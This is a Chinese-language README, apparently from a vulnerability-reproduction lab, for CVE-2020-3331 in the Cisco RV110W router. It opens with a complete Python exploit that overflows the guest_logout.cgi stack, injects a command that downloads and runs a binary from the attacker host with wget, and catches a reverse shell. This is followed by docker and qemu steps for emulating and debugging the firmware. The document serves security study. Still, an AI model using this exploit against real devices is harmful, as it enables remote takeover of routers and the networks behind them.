 # Cisco RV110W 远程代码执行漏洞（CVE-2020-3331）

- 版本：Cisco RV110W 1.2.2.5
- 漏洞：前台 cgi 接口 `guest_logout.cgi` 栈溢出
- 利用：a0 寄存器可控，ret2system

```python
#!/usr/bin/python3

from pwn import *
import requests
from threading import Thread

context(arch='mips', endian='little', os='linux')

system = 0x0047A610

cmd  = '\n'
cmd += 'wget http://192.168.2.1:8000/tools/msf -O /msf\n'
cmd += 'chmod 777 /msf\n'
cmd += '/msf\n'

assert(len(cmd) < 0x55)

payload = b"status_guestnet.asp" + cmd.ljust(0x55,'a').encode() + p32(system) 
data = {"cmac":"12:af:aa:bb:cc:dd", "submit_button":payload, "cip":"192.168.100.1"}

def attack():
    try:
        requests.post("http://192.168.2.2/guest_logout.cgi", data=data, timeout=1)
    except Exception as e:
        print(e)

thread = Thread(target=attack)
thread.start()

io = listen(31337)
io.wait_for_connection()
log.success("getshell")
io.interactive()

thread.join()
```

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- httpd（有漏洞 Web 服务器）：192.168.2.2:80
- 镜像依赖：`firmianay/ubuntu1604 -> firmianay/qemu-system:mipsel`

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/RV110W_FW_1.2.2.5.bin"
```

构建并启动漏洞环境：

```sh
# 初始化环境
$ ./init_env.sh mipsel

# 构建镜像
$ docker-compose -f docker-compose-system.yml build

# 启动容器
$ docker-compose -f docker-compose-system.yml up
```

## 首次攻击尝试

启动完成后再开一个 shell，尝试首次攻击：

```sh
$ docker exec -it cisco-system /bin/bash

root@7463bb44fe27:$ python3 ./tools/exp.py
```

## docker 中调试

参考 `run.sh` 进行配置。

窗口一：开启调试（qemu-system shell）

```sh
$ docker exec -it cisco-system /bin/bash

root@7463bb44fe27:$ cd images
root@7463bb44fe27:$ ps -ef | grep qemu-system  | awk '{print $2}' | xargs kill -9
root@7463bb44fe27:$ qemu-system-mipsel -M malta -kernel vmlinux-3.2.0-4-4kc-malta -hda debian_wheezy_mipsel_standard.qcow2 -append "root=/dev/sda1 console=tty0" -net nic -net tap,ifname=tap0,script=no,downscript=no -nographic

即可进入 qemu-system，以 root:root 手动登录后进行调试：

root@debian-mipsel:$ cd squashfs-root/
root@debian-mipsel:$ ./tools/run_httpd.sh
root@debian-mipsel:$ ps -ef | grep httpd | grep -v 'grep' | awk '{print $2}' | xargs ./tools/gdbserver :6666 --attach
Attached; pid = 2328
Listening on port 6666
```

窗口二：调试界面（docker shell）

```sh
$ docker exec -it cisco-system /bin/bash

root@7463bb44fe27:$ tar xzf squashfs-root.tar.gz
root@7463bb44fe27:$ gdb-multiarch -x ./tools/gdb.cmd 
gef➤  c
```

窗口三：触发漏洞（docker shell）

```sh
$ docker exec -it cisco-system /bin/bash

root@7463bb44fe27:$ python3 ./tools/exp.py
```

## 本机调试

如果你不想用 docker 进行调试，在 docker-compose 中预留了端口映射，可以手动使用 ssh 将 qemu 靶机的 80 和 6666 端口转发到 docker 主机，通过 docker 最终映射到宿主机的端口上：

```yml
ports:
    - "8888:80"
    - "6666:6666"
```

在 docker 里执行如下命令进行端口转发：

```sh
$ ssh root@127.0.0.1 -f -N -g -R 0.0.0.0:6666:192.168.2.2:6666
$ ssh root@127.0.0.1 -f -N -g -R 0.0.0.0:80:192.168.2.2:80
```

待启动调试后，即可在宿主机上访问 8888 和 6666 端口来访问漏洞服务和 gdbserver 了。

## 参考链接

- <https://xuanxuanblingbling.github.io/iot/2020/10/26/rv110w>
